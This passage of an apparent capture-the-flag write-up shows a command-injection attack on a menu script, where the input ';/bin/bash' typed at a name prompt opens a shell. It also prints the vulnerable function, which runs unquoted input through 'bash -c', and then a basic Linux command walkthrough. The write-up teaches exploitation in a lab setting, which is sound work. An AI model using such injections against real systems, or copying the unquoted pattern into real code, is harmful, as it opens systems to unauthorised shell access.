 ```bash
Anything else might have ... unintended consequences.

Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...;/bin/bash
 _______________________
< Santa's Little Helper >
 -----------------------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||

   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.
```

With our shell, we can read the source code and find the vulnerable code snippet:

```bash
four() {
  read -r -p "Enter your name (Please avoid special characters, they cause some weird errors)..." name
  if [ -z "$name" ]; then
    name="Santa\'s Little Helper"
  fi
  bash -c "/usr/games/cowsay -f /opt/reindeer.cow $name"
  pause
}
```

### Linux Primer

Here, we were presented with a series of Linux command-line prompts to find the right command for the job. The solution is the following sequence of commands:

```bash
# Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!
$ ls 
HELP  munchkin_19315479765589239  workshop

# Now find the munchkin inside the munchkin.
$ cat munchkin_19315479765589239
munchkin_24187022596776786

# Great, now remove the munchkin in your home directory.
$ rm munchkin_19315479765589239

# Print the present working directory using a command.
$ pwd
/home/elf

# Good job but it looks like another munchkin hid itself in you home directory. Find the hidden munchkin!
$ ls -la
total 56
drwxr-xr-x 1 elf  elf   4096 Dec 13 15:50 .
```